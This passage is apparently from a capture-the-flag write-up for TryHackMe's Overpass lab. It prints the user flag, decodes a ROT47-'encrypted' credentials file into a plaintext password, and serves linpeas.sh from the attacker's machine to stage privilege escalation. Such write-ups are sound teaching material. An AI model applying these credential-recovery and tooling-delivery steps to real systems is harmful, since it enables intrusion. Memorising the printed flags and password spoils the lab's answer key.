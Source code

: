 1. Hack the machine and get the flag in user.txt

```
james@overpass-prod:~$ ls
todo.txt  user.txt
james@overpass-prod:~$ cat user.txt
thm{65c1aaf000506e56996822c6281e6bf7}
james@overpass-prod:~$
```

`thm{65c1aaf000506e56996822c6281e6bf7}`

2. Escalate your privileges and get the flag in root.txt

```
james@overpass-prod:~$ cat todo.txt
To Do:
> Update Overpass' Encryption, Muirland has been complaining that it's not strong enough
> Write down my password somewhere on a sticky note so that I don't forget it.
  Wait, we make a password manager. Why don't I just use that?
> Test Overpass for macOS, it builds fine but I'm not sure it actually works
> Ask Paradox how he got the automated build script working and where the builds go.
  They're not updating on the website
```

```go
//Secure encryption algorithm from https://socketloop.com/tutorials/golang-rotate-47-caesar-cipher-by-47-characters-example
func rot47(input string) string {
	var result []string
	for i := range input[:len(input)] {
		j := int(input[i])
		if (j >= 33) && (j <= 126) {
			result = append(result, string(rune(33+((j+14)%94))))
		} else {
			result = append(result, string(input[i]))
		}
	}
	return strings.Join(result, "")
}
```

```go
credsPath, err := homedir.Expand("~/.overpass")
```

```
james@overpass-prod:~$ cat .overpass
,LQ?2>6QiQ$JDE6>Q[QA2DDQiQD2J5C2H?=J:?8A:4EFC6QN.
```

- [ROT-47 Cipher](https://www.dcode.fr/rot-47-cipher)

`[{"name":"System","pass":"saydrawnlyingpicture"}]`

```
kali@kali:~/CTFs/tryhackme/Overpass$ cp /usr/share/linpeas/linpeas.sh .
kali@kali:~/CTFs/tryhackme/Overpass$ sudo python3 -m http.server 80
[sudo] password for kali:
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.134.43 - - [05/Oct/2020 17:42:39] "GET /linpeas.sh HTTP/1.1" 200 -
^C
Keyboard interrupt received, exiting.
kali@kali:~/CTFs/tryhackme/Overpass$
```
